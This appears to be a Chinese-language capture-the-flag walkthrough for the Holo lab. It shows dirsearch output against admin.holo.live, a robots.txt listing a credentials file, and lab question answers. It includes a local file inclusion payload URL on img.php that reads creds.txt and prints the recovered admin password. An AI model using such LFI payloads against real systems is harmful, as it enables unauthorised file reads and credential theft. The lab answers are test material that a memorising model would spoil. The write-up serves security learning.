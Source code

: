   _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, jsp, asp, aspx, do, action, cgi, pl, html, htm, js, json, tar.gz, bak | HTTP method: GET | Threads: 50
Wordlist size: 15492

Output File: /root/dirsearch/reports/admin.holo.live/_22-07-25_04-16-43.txt

Error Log: /root/dirsearch/logs/errors-22-07-25_04-16-43.log

Target: http://admin.holo.live/

[04:16:44] Starting:                                          
[04:17:42] 301 -  319B  - /assets  ->  http://admin.holo.live/assets/       
[04:17:55] 302 -    0B  - /dashboard.php  ->  index.php                     
[04:17:58] 403 -  280B  - /docs/                                            
[04:17:58] 301 -  317B  - /docs  ->  http://admin.holo.live/docs/           
[04:18:02] 301 -  321B  - /examples  ->  http://admin.holo.live/examples/   
[04:18:02] 403 -  280B  - /examples/                                        
[04:18:12] 200 -    2KB - /index.php                                        
[04:18:12] 200 -    2KB - /index.php/login/                                 
[04:18:14] 301 -  323B  - /javascript  ->  http://admin.holo.live/javascript/
[04:18:43] 200 -  135B  - /robots.txt  
```

robots.txt暴露出一个文件```creds.txt```，但是在浏览器上没有权限打开
```
User-agent: *
Disallow: /var/www/admin/db.php
Disallow: /var/www/admin/dashboard.php
Disallow: /var/www/admin/supersecretdir/creds.txt
```

**Task 10  Web App Exploitation What the Fuzz?**

> What file leaks the web server's current directory?

> robots.txt

> What file loads images for the development domain?

> img.php

> What is the full path of the credentials file on the administrator domain?

> /var/www/admin/supersecretdir/creds.txt


dev下的img.php存在一个LFI漏洞，刚好```creds.txt```这个文件我们在浏览器上没有阅读权限，使用LFI可以读取到文件内容

payload：
```
http://dev.holo.live/img.php?file=/var/www/admin/supersecretdir/creds.txt
```

登录密码为：
```
admin:DBManagerLogin!
```

**Task 12  Web App Exploitation What is this? Vulnversity?**

> What file is vulnerable to LFI on the development domain?

> img.php

```